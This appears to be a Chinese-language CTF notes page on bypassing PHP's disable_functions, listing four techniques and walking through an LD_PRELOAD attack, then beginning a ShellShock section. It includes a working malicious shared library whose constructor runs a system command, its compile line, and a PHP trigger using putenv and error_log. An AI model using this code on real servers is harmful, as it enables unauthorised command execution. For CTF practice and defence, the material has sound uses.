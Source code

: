 
## PHP
### Bypass disable_function
PHP 的 disabled_functions主要是用于禁用一些危险的函数防止被一些攻击者利用
有四种绕过 disable_functions 的手法：

1. 攻击后端组件，寻找存在命令注入的 web 应用常用的后端组件，如，ImageMagick 的魔图漏洞、bash 的破壳漏洞等等
2. 寻找未禁用的漏网函数，常见的执行命令的函数有 `system()、exec()、shell_exec()、passthru()`，偏僻的` popen()、proc_open()、pcntl_exec()`，逐一尝试，或许有漏网之鱼
3. mod_cgi 模式，尝试修改 .htaccess，调整请求访问路由，绕过 php.ini 中的任何限制（让特定扩展名的文件直接和php-cgi通信）；
4. 利用环境变量 LD_PRELOAD 劫持系统函数，让外部程序加载恶意 *.so，达到执行系统命令的效果。


参考：[无需sendmail：巧用LD_PRELOAD突破disable_functions](https://www.freebuf.com/articles/web/192052.html)

#### LD_PRELOAD
>LD_PRELOAD是Linux系统的一个环境变量，用于动态库的加载，动态库加载的优先级最高，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。

简单来说就是LD_PRELOAD指定的动态链接库文件，会在其它文件调用之前先被调用

**error_log(error,type,destination,headers)：**
当type为1时，服务器就会把error发送到参数 destination 设置的邮件地址

先生成一个hack.c恶意动态链接库文件
```c
#include <stdio.h>
#include <unistd.h>
#include <stdio.h>

__attribute__ ((__constructor__)) void angel (void){
    unsetenv("LD_PRELOAD");
    system("/readflag > /tmp/bmth");
}
```
使用gcc编译 `gcc -shared -fPIC hack.c -o hack.so`
![](https://img-blog.csdnimg.cn/20200429171842836.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
虽然报错了，但还是生成了hack.so，上传到tmp文件夹下，再在www/html下创建bmth.php文件：
```php
<?php
	putenv("LD_PRELOAD=/tmp/hack.so");
	error_log("",1,"","");
?>
```
再去包含php文件`?ant=include('bmth.php');`，成功生成bmth
![](https://img-blog.csdnimg.cn/20200429173238993.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
![](https://img-blog.csdnimg.cn/20200429173318642.png)
本题mail函数无法使用，不然也可以使用`mail("","","","");`

参考：
[Bypass disabled_functions一些思路总结](https://xz.aliyun.com/t/4623)
[PHP中通过bypass disable functions执行系统命令的几种方式](https://www.freebuf.com/articles/web/169156.html)
#### ShellShock
题目描述：利用PHP破壳完成 Bypass
>**漏洞原理：**
目前的Bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。而其核心的原因在于在输入的过滤中没有严格限制边界，也没有做出合法化的参数判断。

